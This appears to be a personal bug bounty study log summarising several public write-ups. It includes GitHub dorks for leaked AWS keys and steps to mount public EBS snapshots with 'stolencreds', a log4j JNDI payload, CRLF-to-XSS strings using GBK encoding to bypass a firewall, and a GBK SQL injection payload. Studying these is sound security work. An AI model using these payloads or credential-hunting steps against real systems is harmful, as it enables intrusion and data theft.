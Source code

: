 # Day-1 [9-3-2023]

### ****How to Find Your First Bug: Motivation and Tips for Bug Bounty Hunting****

[How to Find Your First Bug: Motivation and Tips for Bug Bounty Hunting](https://infosecwriteups.com/how-to-find-your-first-bug-motivation-and-tips-for-bug-bounty-hunting-5e7343066d0c)

- Take your time to research the application
- Don’t rush directly into testing bugs.
- Instead, take some time to register on the app
    - 
    
    <aside>
    📌 look around, and see if you can 
    create new users with different roles, 
    upload any docs, 
    export something into PDF, 
    or call external services using webhooks.
    
    </aside>
    
- Just play with the app like a regular user, and start questioning yourself:
    - What will happen if a regular user can access this admin section?
    - Can a non-admin user view this secret doc?
    - Can a user upload non-basic doc types, such as PHP files in a PHP application?
    - Is it possible to inject HTML tags into exported PDFs,
        - and if so, is it possible to read internal files using an <iframe> tag?
    - Is it possible to call localhost when creating a new webhook, or even an AWS metadata address?
    - Does the app require an old password for changing the password or email,
        - if not, then is it possible to find XSS somewhere to achieve full ATO (Account Takeover)?
    - What kind of stack app is built with, what are the versions, and are there any vulnerabilities / CVEs with PoCs?
    - Are there any file paths in URL params or POST body, that can be tested for LFI (local file inclusion) vulnerabilities?
    - Is there any premium subscription plan that gives benefits, can these benefits be achieved using a normal user without a subscription?

### ****Finding Treasures in Github and Exploiting AWS for Fun and Profit — Part 1 & 2****

[Finding Treasures in Github and Exploiting AWS for Fun and Profit —  Part 1](https://blog.appsecco.com/finding-treasures-in-github-and-exploiting-aws-for-fun-and-profit-part-1-be5cfadf942)

[Finding Treasures in Github and Exploiting AWS for Fun and Profit — Part 2](https://medium.com/appsecco/finding-treasures-in-github-and-exploiting-aws-for-fun-and-profit-part-2-8ffefa995439)

- Company → Github → Github Dorks → Got Credentials [AWS] → setup AWSCLI using creds → AWS Recon for further vulnerability
- Github Dorks ->
    - 
    
    ```graphql
    filename:credentials aws_access_key_id 
    filename:credentials aws_access_key_id
    "token" "AQoDY"
    "rds.amazonaws.com"
    filename:credentials AWS_ACCESS_KEY_ID
    ```
    
- If got AWS Creds → then setup using aws configure command
- Automation ? → use trufflehog tool →
    
    <aside>
    📌 ./trufflehog git [https://github.com/NAME/REPO](https://github.com/NAME/REPO)
    
    </aside>
    
- AWS Recon →
    - he used `weirdALL tool`
    - Tool gave result as → `**DescribeSnapshots**` permission
        - It describe the EBS snapshots within the AWS account
    - Command →
        
        ```graphql
        aws ec2 describe-snapshots --region <REGION> --profile stolencreds
        
        or
        
        aws ec2 describe-snapshots --region <REGION> --owner-id <ACCOUNT_ID>
        ```
        
    - What we get from this ? → **`Snapshot ID` now can check more info using following command →**
        
        ```graphql
        aws ec2 describe-snapshots --snapshot-ids <snapshot-id-here>
        ```
        
    - What is EBS ?
        - Amazon Elastic Block Store
        - block-level storage volumes for use with EC2 instances
        - EBS volumes behave like raw, unformatted block devices
        - You can mount these volumes as devices on your instances.
        - EBS volumes that are attached to an instance are exposed as storage volumes that persist independently from the life of the instance
    - These EBS can contain Sensitive Information → That means if we get Snapshot ID and EBS Snapshot have **********************************`PUBLIC Visibility`********************************** then we will get these sensitive information as this public visibile to all AWS Users
    - **`We got this Snapshot now What ?`**
        - Just create a volume and attach the volume to an Ubuntu instance.
        - Once attached, we can, mount the filesystem to check through the disk.
        - After attaching the volume, ssh into the instance which is launched
        - Run the command to view the filesystem - `lsblk` and check for that attached volume
        - Now mount that attached volume  → `mount /dev/xvdf1 /mnt`
        - Once mount → browse files and folders and check for any Sensitive Data there
    - 
- Extra →
    - during his recon he found .git folder and using command he checked for commits
    - Command → **************`git log`**************
    - Then search for interesting commit and copy that commit  and then again run command → `**git show <commit-id>**`
    
    ---
    
    <aside>
    📌 Protect Snapshot
    
    ensure their visibility is set to private AND they are encrypted.
    
    Can automate this → Create an SCP that blocks “ec2:ModifySnapshotAttribute” which is responsible for modifying snapshot permissions to make it public
    
    </aside>
    

### ****How did I found RCE on SHAREit which rewarded $$$ bounty****

[How did I found RCE on SHAREit which rewarded $$$ bounty](https://infosecwriteups.com/how-did-i-found-rce-on-shareit-which-rewarded-bounty-7d4196bf1b52)

<aside>
📌 Nothing much, but in this writeup he got  log4j shell alert and then he used payload in Accept header

</aside>

![Untitled](Day-1-[9-3-2023]/Untitled.png)

```graphql
Payload -> ${jndi:ldap//colaborator/a}
```

### ****Story Of Unexpected Bugs****

[Story Of Unexpected Bugs](https://thecyberneh.medium.com/story-of-unexpected-bugs-75734d51ac57)

Interesting read

- Read mail → Saw **********************`unsubscribe`********************** button or link there
- Copy the link contained in ************************`unsubscribe`************************ →
    
    ```graphql
    https://target.maintarget.com/cgi-bin/qsurveyadmin.dll?request=exclude&idx=63364C&email=30316E6568706174656C6F6666696369616C40676D61696C2E636F6D&language=English&languagecharset=utf-8&source=1
    ```
    
- 30316E6568706174656C6F6666696369616C40676D61696C2E636F6D → this he took as interesting
- He tried to decode this → base64, md5 etc
    - Then he observed the encoded part is having an range of → A-F and 0-9
    - **`Mean → HEX Encoding`**
- Decoded → got all in Capital Letters → Replace it with Fake mail and encoded as Hex and check the request response
- Yes, he found he can unsubscribe any email - IDORs
- Later he also tried XSS Payload instead of Email and then yes got XSS Also

### ****$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty****

[$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)

> Very Interesting Read - **CRLF to XSS and further exploitation**
> 

- CRLF
    - On a target → he tried for CRLF Attack [Carriage Return Line Feed]
        - What does mean → tell the End of Line of Header Value
    - What is CRLF Injection →
        - when the web server directly renders those special characters without encoding them and passes them to response headers like Location, Set-Cookie, etc.
        - Whatever we give Above Header as Request → then the value will be come in Response
        - /r/n → this is CRLF → in encoded format →%0d%0a
    - In his target he tried like this ⇒
    
    ```graphql
    /%0D%0A%20Set-Cookie:whoami=thecyberneh
    
    so main URL :-  
    https://subDomain.microsoft.com/%0D%0A%20Set-Cookie:whoami=thecyberneh
    
    Result -> 400  Bad Request instead of 404 Not Found
    
    Logic behind this ->
    If web page or directory is not exist then must come as -> 404  not found
    But here Error is different -> 400 Bad Request -> Might be Firewall block the req
    
    For confirmation -> 
    target.com/iamnotexist -> 404 not found
    
    Then tried to bypass this Firewall ->
    
    %0D%0A%20Set-Cookie:whoami=thecyberneh
    %20%0D%0ASet-Cookie:whoami=thecyberneh
    %0A%20Set-Cookie:whoami=thecyberneh
    %2F%2E%2E%0D%0ASet-Cookie:whoami=thecyberneh
    
    Failed
    ```
    
    - Now Interesting Learning or Technique came → `**GBK encoding**`
    - 
    
    ```graphql
    Payload responsible for CRLF injection is :- 嘍嘊
    
    Need to URL Encode this ->
    
    嘍 :- %E5%98%8D
    嘊 :- %E5%98%8A
    
    So, -
    https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=thecyberneh
    
    This worked
    ```
    
- CRLF to XSS
    
    
    Now what he did is to try escalate CRLF to XSS 
    
    Before that understand the Structure of  Request n Response
    
    ![Untitled](Day-1-[9-3-2023]/Untitled%201.png)
    
    > The arrow line is Blank Line
    > 
    
    Like →
    
    ![Untitled](Day-1-[9-3-2023]/Untitled%202.png)
    
    <aside>
    📌 For XSS → Need to *insert a Javascript payload in the body section of the Response because Javascript can be render in body 
    
    and for that → need to FORCE the Server **to send a response like this***
    
    ![Untitled](Day-1-[9-3-2023]/Untitled%203.png)
    
    </aside>
    
    Ex. →
    
    ![Untitled](Day-1-[9-3-2023]/Untitled%204.png)
    
    Payload → 
    
    ```graphql
    %E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
    
    as
    
    https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
    
    ```
    

GBK Encoding and CRLF to XSS was the main interesting part in this writeup

Also he gave what else we can do with CRLF →

```graphql
Arbitrary Header injection
Arbitrary Cookie Injection
Javascript injection ( XSS )
HTML Injection
HTTP request splitting
Bypassing Cookie-Based CSRF Protection
Application DOS using overly long Cookies
the attacker can set new headers
```

---

- `**GBK Encoding [let’s learn about it]**`
    
    
    <aside>
    📌 GBK is **an extension of the GB 2312 character set for Simplified Chinese characters, used in the People's Republic of China.
    
    It includes all unified CJK characters found in GB 13000.1-93, i.e. ISO/IEC 10646:1993, or Unicode 1.1.**
    
    </aside>
    

Can be handy →

[Complete Character List for GBK](https://www.fileformat.info/info/charset/GBK/list.htm)

```graphql
GBK Encoding - really cool stuff to know

Let's see on Twitter

#1. GBK Encoding/MultiByte Attack

嘊 = %E5%98%8A = \u560a ⇒ %0A
嘍 = %E5%98%8D = \u560d ⇒ %0D
嘾 = %E5%98%BE = \u563e ⇒ %3E (>)
嘼 = %E5%98%BC = \u563c ⇒ %3C (<)
嘢 = %E5%98%A2 = \u5622 ⇒ %22 (')
嘧 = %E5%98%A7 = \u5627 ⇒ %27 (")

For XSS CRL WAF

---

#2. You can use 
@hackvertor
 extension in Burp:
<@ unicode_escapes>嘊<@/unicode_escapes>
<@ urlencode_all>嘊<@/urlencode_all>
or go `hardcore` and use https://compart.com/en/unicode/U+560A to find similar stuff 
https://compart.com/en/unicode/U+570A

---

Various Characters Encoding -> https://encoding.spec.whatwg.org/#names-and-labels

  ❍  UTF-8
  ❍  ISO-8859-2
  ❍  windows-1251
  ❍  windows-1252
  ❍  GBK
  ❍  UTF-16BE
```

- ****#SQL_Injection #GBK Character Encoding****
    
    
    [#SQL_Injection #GBK Character Encoding](https://cybershafarat.com/2020/12/25/sql_injection-gbk-character-encoding/)
    
    <aside>
    📌 SQL Injection protection Function → ************************`addslashes()`************************
    
    This function takes an input and if it sees characters like ” \ ‘and … in the input sentence, it puts a \ before these characters.
    
    </aside>
    
    <aside>
    📌 One way to bypass this function is to use the GBK encoding character
    
    GBK Encoding Character → made for Chinese characters
    
    Payload → %ef%5c%27%20OR%201=1–%20
    
    </aside>
    
